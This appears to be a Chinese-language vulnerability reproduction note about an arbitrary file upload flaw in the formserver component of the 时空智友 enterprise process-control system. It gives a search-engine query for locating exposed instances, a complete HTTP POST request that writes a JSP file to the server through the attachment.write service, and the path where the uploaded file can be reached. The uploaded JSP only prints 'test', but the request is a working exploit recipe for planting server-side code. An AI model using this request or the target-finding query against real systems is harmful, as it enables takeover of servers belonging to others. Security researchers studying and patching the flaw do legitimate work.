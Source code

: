 # 时空智友企业流程化管控系统formserver任意文件上传漏洞

# 一、漏洞简介
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。它旨在帮助企业实现流程的规范化、自动化和优化，从而提高工作效率、降低成本并提升管理水平。时空智友企业流程化管控系统存在任意文件上传漏洞，攻击者可通过系统或应用程序的漏洞将恶意文件上传到目标服务器上，导致目标服务器被攻击者控制。

# 二、影响版本
+ 时空智友企业流程化管控系统

# 三、资产测绘
+ hunter`web.icon=="2464cbce5dd2681dd4fb62d055520d78"`
+ 登录页面

![1693803612908-2a0fea76-532f-4ba1-87fa-4fc6bfae5cf3.png](./img/KodiOhi15Unj7TlJ/1693803612908-2a0fea76-532f-4ba1-87fa-4fc6bfae5cf3-152070.png)

# 四、漏洞复现
```plain
POST /formservice?service=attachment.write&isattach=false&filename=a.jsp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=BDC88B10942C62F82DA953E7503830B2; __qypid=""
Upgrade-Insecure-Requests: 1
Content-Length: 229

<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>JSP 输出 test 字符</title>
</head>
<body>
    <%-- 使用 out 对象输出 test 字符 --%>
    <%= "test" %>
</body>
</html>
```

![1693803668053-3bfeca2b-5e8d-4121-b209-644837708b2f.png](./img/KodiOhi15Unj7TlJ/1693803668053-3bfeca2b-5e8d-4121-b209-644837708b2f-555411.png)

上传文件位置

```plain
http://xx.xx.xx.xx/form/temp/202309043gwzr2x62hiiydrw_a.jsp
```

![1693803717058-b5c7886e-61db-4860-bf7b-3a07ddcdc5c4.png](./img/KodiOhi15Unj7TlJ/1693803717058-b5c7886e-61db-4860-bf7b-3a07ddcdc5c4-718010.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wupuwnqwagzlmk58>
